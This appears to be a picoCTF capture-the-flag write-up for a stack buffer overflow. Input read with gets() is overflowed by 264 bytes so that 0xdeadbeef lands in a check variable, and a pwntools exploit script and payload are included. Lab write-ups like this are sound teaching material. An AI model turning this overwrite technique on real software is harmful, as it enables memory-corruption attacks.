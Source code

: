 # Clutter-Overflow-Medium Writeup

**Flag:** `picoCTF{...}`

---

## Summary

This challenge contains a **stack-based buffer overflow**. The binary reads user input into a fixed-size buffer (`gets(clutter)`), which has **no bounds checking**. Immediately above the buffer on the stack is a variable `code` which the program checks against `0xdeadbeef`. By overflowing the buffer and writing the target value to `code`, we can trigger the flag output.

---

## Vulnerability

Relevant snippet:

```c
long code = 0;
char clutter[0x100];

gets(clutter);  // unsafe, no bounds check

if (code == 0xdeadbeef) {
    system("cat flag.txt");
}
```

* `clutter` is **256 bytes** (`0x100`).
* `code` is stored **right above the buffer on the stack** (`rbp-0x8`).
* `gets()` allows writing **beyond the buffer**, overwriting `code`.

---

## Exploitation Strategy

1. **Calculate offset to `code`**

   * Buffer = `0x100` bytes.
   * Stack padding / alignment = 8 bytes (`rbp-0x10`).
   * Offset to overwrite `code` = `0x100 + 8 = 264 bytes`.

2. **Overwrite `code`**

   * Construct payload:

     ```
     "X" * 264 + p32(0xdeadbeef)
     ```
   * This writes `0xdeadbeef` to `code`.

3. **Trigger the check**

   * The program checks:

     ```c
     if (code == 0xdeadbeef)
         system("cat flag.txt");
     ```
   * Overflowing `code` with `0xdeadbeef` satisfies the condition and prints the flag.

---

## Exploit Script Overview

```python
from pwn import *

context.arch = 'amd64'

payload = b"X"*264
payload += p32(0xdeadbeef)

conn = process("./chall")   # or remote(HOST, PORT)
conn.recvuntil("What do you see?")
conn.sendline(payload)
conn.interactive()  # get the flag output
```

* Uses `pwntools` for local/remote execution.
* Payload size = buffer (0x100) + padding (8 bytes) + `code` (4 bytes for 0xdeadbeef).
* Sending this payload triggers the flag display.

---

## Final Notes

* **Vulnerability:** classic stack buffer overflow with `gets()`.
* **Target variable:** `code` stored above buffer.
* **Defense:** never use `gets()`. Use `fgets()` or add explicit bounds checks.
* **Takeaway:** Understanding stack layout is crucial for crafting overflows. Buffer + padding offset allows overwriting sensitive variables safely.
